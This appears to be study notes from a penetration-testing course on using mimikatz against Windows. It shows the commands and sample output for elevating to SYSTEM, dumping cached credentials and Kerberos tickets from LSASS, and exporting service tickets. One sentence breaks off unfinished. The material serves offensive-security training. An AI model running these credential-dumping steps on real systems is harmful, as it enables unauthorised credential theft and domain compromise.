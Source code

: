 ### SAM hashes

Among other things, mimikatz modules facilitate password hash extraction from the Local Security Authority Subsystem (LSASS)[14](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/password-attacks/leveraging-password-hashes/retrieving-password-hashes#fn14) process memory where they are cached.

**We must launch mimikatz from an administrative command prompt. To extract password hashes, we must first execute two commands. The first is privilege::debug, which enables the _SeDebugPrivilge_ access right required to tamper with another process and second is **

It's important to understand that LSASS is a SYSTEM process, which means it has even higher privileges than mimikatz running with administrative privileges. To address this, we can use the token::elevate command to elevate the security token from high integrity (administrator) to SYSTEM integrity. If mimikatz is launched from a SYSTEM shell, this step is not required. 

```powershell
C:\> C:\Tools\password_attacks\mimikatz.exe
...
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

740     {0;000003e7} 1 D 33697          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0002e0fe} 1 F 3790250     corp\offsec     S-1-5-21-3048852426-3234707088-723452474-1103   (12g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 3843007     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

Other hash dumping tools, including _pwdump_, _fgdump_, and _Windows Credential Editor_ (wce) work well against older Windows operating systems like Windows XP and Windows Server 2003.

### TGT Dump

A different approach and use of Mimikatz is to exploit Kerberos authentication by abusing TGT and service tickets. As already discussed, we know that Kerberos TGT and service tickets for users currently logged on to the local machine are stored for future use. These tickets are also stored in LSASS and we can use Mimikatz to interact with and retrieve our own tickets and the tickets of other local users.

Command to use Mimikatz to show the user's tickets that are stored in memory:

```cmd
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 291668 (00000000:00047354)
Session           : Interactive from 1
User Name         : Offsec
Domain            : CORP
Logon Server      : DC01
Logon Time        : 08/02/2018 14.23.26
SID               : S-1-5-21-1602875587-2787523311-2599479668-1103

 * Username : Offsec
 * Domain   : CORP.COM
 * Password : (null)

Group 0 - Ticket Granting Service
 [00000000]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : cifs ; dc01 ; @ CORP.COM
   Target Name  (02) : cifs ; dc01 ; @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   Session Key       : 0x00000012 - aes256_hmac
     d062a1b8c909544a7130652fd4bae4c04833c3324aa2eb1d051816a7090a0718
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

Group 1 - Client Ticket ?

Group 2 - Ticket Granting Ticket
 [00000000]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Target Name  (--) : @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM ( $$Delegation Ticket$$ )
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwa
   Session Key       : 0x00000012 - aes256_hmac
     3b0a49af17a1ada1dacf2e3b8964ad397d80270b71718cc567da4d4b2b6dc90d
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
 [00000001]
   Start/End/MaxRenew: 09/02/2018 14.41.47 ; 10/02/2018 00.41.47 ; 16/02/2018 14.41.47
   Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
   Client Name  (01) : Offsec ; @ CORP.COM ( CORP.COM )
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forward
   Session Key       : 0x00000012 - aes256_hmac
     8f6e96a7067a86d94af4e9f46e0e2abd067422fe7b1588db37c199f5691a749c
   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

The output shows both a TGT and a TGS. Stealing a TGS would allow us to access only particular resources associated with those tickets. On the other side, armed with a TGT ticket, we could request a TGS for specific resources we want to target within the domain. We will discuss how to leverage stolen or forged tickets later on in the module.

In addition to these functions, Mimikatz can also export tickets to the hard drive and import tickets into LSASS, which we will explore later. Mimikatz can even extract information related to authentication performed through smart card and PIN, making this tool a real cached credential "Swiss Army knife"!

### Service Account Tickets

To download the service ticket with Mimikatz, we use the kerberos::list command, which yields the equivalent output of the klist command above. We also specify the /export flag to download to disk as shown below.

```
mimikatz # kerberos::list /export
```

